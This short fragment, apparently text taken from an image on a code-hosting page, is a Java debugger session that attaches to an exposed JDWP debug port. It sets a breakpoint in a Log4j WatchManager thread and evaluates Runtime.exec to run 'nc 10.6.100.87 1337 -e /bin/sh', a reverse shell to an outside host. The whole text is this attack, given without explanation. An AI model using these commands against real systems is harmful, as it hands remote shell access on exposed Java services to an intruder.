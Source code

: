 
jdb -attach 127.0.0.1:18001
classpath
classes
stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
print new java.lang.Runtime().exec("nc 10.6.100.87 1337 -e /bin/sh")